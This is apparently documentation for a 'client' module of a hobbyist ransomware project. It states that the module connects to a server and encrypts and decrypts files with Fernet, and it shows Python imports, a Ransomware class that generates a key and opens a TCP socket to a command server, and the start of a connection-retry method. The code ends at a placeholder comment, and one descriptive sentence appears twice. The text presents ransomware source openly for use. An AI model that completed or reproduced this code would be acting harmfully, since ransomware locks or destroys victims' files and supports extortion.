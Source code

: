 .. _client-documentation:

Client Documentation
====================

This Python module implements a simple ransomware that connects to a server, encrypts files, and decrypts them using the Fernet encryption algorithm.

1. **Import the necessary modules**:

.. code-block:: python

   from time import sleep
   from modules.system import System
   from modules.encdec import Fernet, Encrypt, Decrypt
   from socket import socket, AF_INET, SOCK_STREAM
.
- This Python module implements a simple ransomware that connects to a server, encrypts files, and decrypts them using the Fernet encryption algorithm.

2. **Class Ransomware**:

.. code-block:: python

    class Ransomware:
        def __init__(self, host: str, port: int) -> None:
            self.key = Fernet.generate_key()
            self.host = host
            self.port = port
            self.system: System = System()
            self.server: socket = socket(AF_INET, SOCK_STREAM)
            self.Private = Fernet(self.key)

        def ConnectServer(self, connected=False) -> None:
            retries = 0
            while not connected and retries < 3:
                try:
                    self.server.connect((self.host, self.port))
                    # Rest of your implementation here...
